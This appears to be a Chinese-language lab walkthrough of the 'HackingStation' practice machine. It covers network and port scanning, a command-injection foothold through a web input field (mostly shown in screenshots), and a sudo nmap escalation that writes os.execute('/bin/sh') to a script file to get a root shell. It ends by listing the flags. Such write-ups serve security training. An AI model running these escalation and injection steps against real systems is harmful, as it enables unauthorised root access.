## 网段扫描
```
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:df:e2:a7, IPv4: 192.168.26.128
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.26.1    00:50:56:c0:00:08       (Unknown)
192.168.26.2    00:50:56:e8:d4:e1       (Unknown)
192.168.26.178  00:0c:29:7a:7f:c4       (Unknown)
192.168.26.254  00:50:56:ff:4b:3d       (Unknown)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.901 seconds (134.67 hosts/sec). 4 responded
```

## 端口扫描

```
└─# nmap -p- -sC -sV 192.168.26.178
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-19 05:39 EST
Nmap scan report for 192.168.26.178 (192.168.26.178)
Host is up (0.0019s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: HackingStation
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 00:0C:29:7A:7F:C4 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.35 seconds

└─# nmap -sU --top-ports 20 192.168.26.178
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-19 05:40 EST
Nmap scan report for 192.168.26.178 (192.168.26.178)
Host is up (0.0027s latency).

PORT      STATE         SERVICE
53/udp    closed        domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   open|filtered msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   closed        netbios-ssn
161/udp   open|filtered snmp
162/udp   closed        snmptrap
445/udp   closed        microsoft-ds
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   closed        ipp
1434/udp  open|filtered ms-sql-m
1900/udp  closed        upnp
4500/udp  closed        nat-t-ike
49152/udp open|filtered unknown
MAC Address: 00:0C:29:7A:7F:C4 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 8.56 seconds
```

## 获取Webshell

  
  

>有特殊目录
>

  

>有点卡
>
  
>看起来是exploit-DB的网站
>
  

>估摸着不是sql，就是LFI了
>
  
  
  

>感觉跟绕过有关，没想，先进行图片的隐写操作
>

  

```
└─# exiftool hacker.jpg                                                                                                                                           
ExifTool Version Number         : 12.76
File Name                       : hacker.jpg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:03:27 07:33:03-04:00
File Access Date/Time           : 2025:01:19 05:48:56-05:00
File Inode Change Date/Time     : 2025:01:19 05:48:56-05:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 96
Y Resolution                    : 96
Comment                         : CREATOR: gd-jpeg v1.0 (using IJG JPEG v62), quality = 85.
Image Width                     : 600
Image Height                    : 400
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 600x400
Megapixels                      : 0.240                                                                           
┌──(root㉿LingMj)-[/home/lingmj/xxoo]
└─# stristrings -n 13 hacker.jpg 
;CREATOR: gd-jpeg v1.0 (using IJG JPEG v62), quality = 85
                                        
┌──(root㉿LingMj)-[/home/lingmj/xxoo]
└─# strings -n 9 hacker.jpg
;CREATOR: gd-jpeg v1.0 (using IJG JPEG v62), quality = 85
Z2yo^/yxT
"AQa2Pq #3B`
!1@AP Q0apq                                         
┌──(root㉿LingMj)-[/home/lingmj/xxoo]
└─# strings -n 6 hacker.jpg
;CREATOR: gd-jpeg v1.0 (using IJG JPEG v62), quality = 85
iot=.o7
fkS7-s
w$~2s^
hj:nFM%
%tmbO$U
1 #$2`
Z2yo^/yxT
WY)z4c
mm1!%VD2
 "AQ`2Bp
t~Sc26b
4#dr&X
"AQa2Pq #3B`
7%l6fT
Y}T@Bx
Egw?%>
I?Pw-nK
_e#v]~
>Q8~9^
yRY#fs
0-?YO/
Q.TTy?
!1@AP Q0apq
!1AQaq
fYlt3+
m|K\ l
"2=u(5d
O fS^/
        )|16w
J!j<*R
Wg64{y
7 _Plf
ONkpnU
`9I}n!9
|AkFCo
F`^`N\
0hDQ-`m~
+0]x3)                                         
┌──(root㉿LingMj)-[/home/lingmj/xxoo]
└─# stegstegseek hacker.jpg 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Progress: 99.99% (133.4 MB)           
[!] error: Could not find a valid passphrase.
```

>继续找线索，可以思考一下扫描目录
>
  

>看一下翻译跟nmap有关？，或者跟exp有关
>

  

>感觉还是跟这个输入框有关，看看能否绕过注入
>
  

>发现;可以进行绕过注入
>

  

>先输入存在的漏洞不然响应很慢，然后busybox操作一下
>
  

## 提权

```
hacker@HackingStation:/var/www/html$ sudo -l
Matching Defaults entries for hacker on HackingStation:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User hacker may run the following commands on HackingStation:
    (root) NOPASSWD: /usr/bin/nmap
```

>查看ctfobins
>

  


```
hacker@HackingStation:/var/www/html$ sudo nmap --interactive
nmap: unrecognized option '--interactive'
See the output of nmap -h for a summary of options.
hacker@HackingStation:/var/www/html$ sudo nmap --script=os.execute("/bin/sh")
bash: syntax error near unexpected token `('
hacker@HackingStation:/var/www/html$ sudo nmap --script='os.execute("/bin/sh")'
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-19 20:00 CET
NSE: failed to initialize the script engine:
/usr/bin/../share/nmap/nse_main.lua:833: 'os.execute("/bin/sh")' did not match a category, filename, or directory
stack traceback:
        [C]: in function 'error'
        /usr/bin/../share/nmap/nse_main.lua:833: in local 'get_chosen_scripts'
        /usr/bin/../share/nmap/nse_main.lua:1344: in main chunk
        [C]: in ?

QUITTING!
hacker@HackingStation:/var/www/html$ cd
bash: cd: HOME not set
hacker@HackingStation:/var/www/html$ cd /tmp/
hacker@HackingStation:/tmp$ ls
hacker@HackingStation:/tmp$ TF=$(mktemp)
hacker@HackingStation:/tmp$ echo 'os.execute("/bin/sh")' > $TF
hacker@HackingStation:/tmp$ sudo nmap --script=$TF
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-19 20:01 CET
NSE: Warning: Loading '/tmp/tmp.9XaPaBhdPC' -- the recommended file extension is '.nse'.
# root@HackingStation:/tmp# 
root@HackingStation:~# 
```

>遇到问题敲reset，好了这个靶场结束了
>
>userflag:e34efd51251772a8abc4cc00ee52bb0a
>
>rootflag:f900f7fb7d2c5ea64deca6378ebe5ead


